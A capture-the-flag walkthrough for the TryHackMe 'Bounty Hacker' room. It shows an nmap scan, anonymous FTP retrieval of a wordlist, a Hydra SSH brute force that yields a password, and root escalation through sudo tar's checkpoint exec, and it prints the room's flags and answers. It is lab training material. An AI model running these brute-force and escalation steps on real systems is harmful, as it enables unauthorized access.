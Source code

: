 # Bounty Hacker

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

[Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

## 💢 We will cover  the topics

- Network Enumeration
- FTP Enumeration
- Brute Forcing (SSH)
- Misconfigured Binaries



---------------------------------

## Living up to the title.

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

1. Deploy the machine.

`No answer needed`

2. Find open ports on the machine

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ sudo nmap -sS -sC -sV -O -A 10.10.156.215
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-05 14:51 CEST
Nmap scan report for 10.10.156.215
Host is up (0.031s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.106.222
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Infomir MAG-250 set-top box (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Ubiquiti AirOS 5.5.9 (90%), Linux 2.6.32 - 3.13 (89%), Linux 3.3 (89%), Linux 2.6.32 - 3.1 (89%), Linux 3.7 (89%), Netgear RAIDiator 4.2.21 (Linux 2.6.37) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 49154/tcp)
HOP RTT      ADDRESS
1   31.06 ms 10.8.0.1
2   31.25 ms 10.10.156.215

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.10 seconds
```

`No answer needed`

3. Who wrote the task list?

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ ftp 10.10.156.215
Connected to 10.10.156.215.
220 (vsFTPd 3.0.3)
Name (10.10.156.215:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> mget *
mget locks.txt?
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.08 secs (5.0435 kB/s)
mget task.txt?
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (245.9491 kB/s)
ftp> exit
221 Goodbye.
```

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

`lin`

4. What service can you bruteforce with the text file found?

`ssh`

5. What is the users password?

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ hydra -l lin -P locks.txt 10.10.156.215 -t 4 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-05 14:58:50
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.156.215:22/
[22][ssh] host: 10.10.156.215   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-05 14:58:57
```

`RedDr4gonSynd1cat3`

6. user.txt

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ ssh lin@10.10.156.215
The authenticity of host '10.10.156.215 (10.10.156.215)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.156.215' (ECDSA) to the list of known hosts.
lin@10.10.156.215's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
lin@bountyhacker:~/Desktop$
```

`THM{CR1M3_SyNd1C4T3}`

7. root.txt

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

- [.. / tar](https://gtfobins.github.io/gtfobins/tar/)

```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
#
```

`THM{80UN7Y_h4cK3r}`
